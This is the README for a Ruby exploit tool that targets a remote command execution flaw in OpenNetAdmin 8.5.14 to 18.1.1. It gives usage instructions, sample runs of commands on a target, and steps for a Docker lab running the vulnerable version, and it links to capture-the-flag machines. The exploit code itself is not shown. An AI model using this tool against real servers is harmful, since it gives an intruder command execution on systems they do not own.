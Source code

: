 # OpenNetAdmin RCE exploit

> OpenNetAdmin 8.5.14 <= 18.1.1 - Remote Command Execution

## Usage

```
$ ruby exploit.rb -h
OpenNetAdmin 8.5.14 <= 18.1.1 - Remote Command Execution

Usage:
  exploit.rb exploit <url> <cmd> [--debug]
  exploit.rb version <url> [--debug]
  exploit.rb -h | --help

exploit:      Exploit the RCE vuln
version:      Try to fetch OpenNetAdmin version

Options:
  <url>       Root URL (base path) including HTTP scheme, port and root folder
  <cmd>       Command to execute on the target
  --debug     Display arguments
  -h, --help  Show this screen

Examples:
  exploit.rb exploit http://example.org id
  exploit.rb exploit https://example.org:5000/ona 'touch hackproof'
  exploit.rb version https://example.org:5000/ona
```

Exploit example:

```
$ ruby exploit.rb exploit http://localhost:8667/ona/ id
[+] Command output:

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Version fetching example:

```
$ ruby exploit.rb version http://localhost:8667/ona/
18.1.1
```

## Requirements

- [httpx](https://gitlab.com/honeyryderchuck/httpx)
- [docopt.rb](https://github.com/docopt/docopt.rb)

Example using gem:

```
$ gem install httpx docopt
```

## Docker deployment of the vulnerable software

The docker container requires that `/etc/localtime` and `/etc/localtime` are set on your host, so that PHP can use them to get the right timezone info.

Warning: of course this setup is not suited for production usage!

## With docker-compose (recommended)

Start the containers and launch the config script.
```
$ sudo docker-compose up -d
$ sudo docker exec -ti ona-app ./init_conf.sh
$ sudo docker restart ona-app
```

Then follow [ONA Web Installation guide](https://github.com/opennetadmin/ona/wiki/Install#web-install-method) to complete your setup:
http://localhost:8667/ona/.

- use `sudo docker inspect ona-db | grep IPAddress` to get the bridged IP address of the mariadb container
- re-use the root mysql pass: `58z5J94GBcM8Hx`
- set any random app db user pass: `dDqE4bka4ntUqF`

Now the app default creds will be: `admin` / `admin`. But we won't need them.

## With docker alone

Download, install and start ONA:

```
$ sudo docker pull raabf/ona:v18.1.1
$ sudo docker run -d --publish 127.0.0.1:8667:80 -v /etc/timezone:/etc/timezone:ro -v /etc/localtime:/etc/localtime:ro --name ona-app raabf/ona:v18.1.1
$ sudo docker exec -ti ona-app ./init_conf.sh
$ sudo docker restart ona-app
```

Then install a database (MariaDB MySQL):

```
$ sudo docker pull mariadb:10.5
$ sudo docker run -p 127.0.0.1:3306:3306 --name ona-db -e MYSQL_ROOT_PASSWORD=58z5J94GBcM8Hx -d mariadb:10.5
```

Finally follow the same setup step as for docker-compose method.

## References

This is a better re-write of the original exploit [[EDB-47691]][1] [[PacketStorm]][2].

Some great analysis of the orginal exploit and vulnerability:

- [zacheller.dev](https://zacheller.dev/open-net-admin)
- [medium.com - r3d-buck3t](https://medium.com/r3d-buck3t/remote-code-execution-in-opennetadmin-5d5a53b1e67)

Challenges using the vulnerable software:

- [VulnHub - five86: 1](https://www.vulnhub.com/entry/five86-1,417/)
- [HackTheBox - OpenAdmin](https://www.hackthebox.eu/home/machines/profile/222), [OpenAdmin Write-Up](https://blog.raw.pm/en/HackTheBox-OpenAdmin-write-up/)

OpenNetAdmin: [source][3] - [vulnerable version tarball][4].

Metasploit: [EDB-47772][5] - [updated version][6]

[1]:https://www.exploit-db.com/exploits/47691
[2]:https://packetstormsecurity.com/files/155406/OpenNetAdmin-18.1.1-Remote-Code-Execution.html
[3]:https://github.com/opennetadmin/ona
[4]:https://github.com/opennetadmin/ona/archive/refs/tags/v18.1.1.tar.gz
[5]:https://www.exploit-db.com/exploits/47772
[6]:https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/unix/webapp/opennetadmin_ping_cmd_injection.rb